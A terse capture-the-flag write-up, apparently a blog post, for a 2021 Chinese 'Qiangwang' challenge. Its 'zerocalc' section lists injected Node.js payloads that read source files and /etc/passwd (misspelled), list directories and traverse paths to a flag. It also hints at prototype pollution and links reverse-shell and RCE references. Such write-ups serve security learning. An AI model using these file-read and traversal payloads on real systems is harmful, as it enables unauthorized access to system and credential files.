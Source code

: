 ```yaml
---
title: 第四届“强网”拟态防御国际精英挑战赛
tags:
  - null
categories:
  - null
description: "Welcome to my blog \U0001F601\U0001F601\U0001F601\U0001F601"
top_img: /2.jpg
cover: /image/buu.png
password: sm1le
date: 2021-10-23 10:27:55
top:
---
```




# web

## **zerocalc**



```
readFile('./src/index.js')
readFile('/ect/passwd')
fs.readdirSync('.').toString()
readFile('./src/notevil/index.js')
```



![image-20211023103131823](https://gitee.com/taochiyu/blogimage/raw/master/img/20211023103132.png)





ssti



`https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44`

`https://hackerone.com/reports/809012`



```
__proto__
```

```
readFile('../../../../../../flag')
```



##  ezPickle
